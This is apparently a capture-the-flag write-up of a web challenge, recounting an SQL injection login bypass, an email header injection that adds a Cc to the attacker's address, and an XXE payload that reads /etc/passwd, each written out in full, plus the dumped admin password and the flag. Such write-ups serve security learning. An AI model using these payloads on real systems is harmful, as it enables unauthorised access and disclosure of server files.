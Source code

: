 So first it was really amazing task that make me work hard and try again and again to get something<br />
Our team was working on this task and its a good way to get the job done when you have good web guys<br />
We didnt get the last part which is just 5% of the task but we did well even we dont get the flag before the ctf end<br />
<br />
Its good too to share what we get and why not to share last part we miss <br />

First it was a web login page <br />

![login](https://user-images.githubusercontent.com/7364615/28275160-5715e578-6b13-11e7-8be3-746bb7dcc705.PNG)

OK here where the challenge start<br />

As always check sql injection is the good way to fast work :D <br />
and as usual it works :D <br />

simple login bypass  ' or 1=1 -- in username do the job <br />

then just start dump database and get some data which was not so interesting for us , no flag in data base 

current DB : task200 <br />
Table : users <br />
user : admin <br />
password : verystrongpassword <br />

and also table posts with static data

anyway lets go far 

when we login we get this page 

![image](https://user-images.githubusercontent.com/7364615/28275423-1083f16c-6b14-11e7-9240-56dd1a0a9b34.png)

here me and my team start think about phpmailer bug , but not work after some test 

then after some check we get that its email header injection that make us able to redirect the email to our account :D 
look amazing now here :D 

this is our payload used : 
POST : subject=Report+from+16-07-2017+12-18%0d%0aCc:email@gmail.com%0d%0a&encoding=UTF-8

![image](https://user-images.githubusercontent.com/7364615/28275535-6a91760c-6b14-11e7-80e9-396f88656232.png)

it was xml file 

![image](https://user-images.githubusercontent.com/7364615/28275635-c5548e44-6b14-11e7-82cd-7fd7aa3e97ca.png)

here look XML External Entity (XXE) 

so all we need to do is to make xxe in subject to get email with some data from the server

it was really bad for us , we make all test but we miss the last part to make this work 

the last payload to get flag is to read /etc/passwd file from the server 

payload : subject=-->%26xxe;test123%0d%0aCc:+email@gmail.com&encoding=UTF-8"%3f><!DOCTYPE+foo+[<!ELEMENT+foo+ANY+><!ENTITY+xxe+SYSTEM+"file%3a///etc/passwd"+>]><report><about><subject><!--

![image](https://user-images.githubusercontent.com/7364615/28275820-5f3df590-6b15-11e7-9a62-8b544b79b853.png)

and the flag was : ctfzone{c5b8865cc6d98898f391c911f4c371a3}
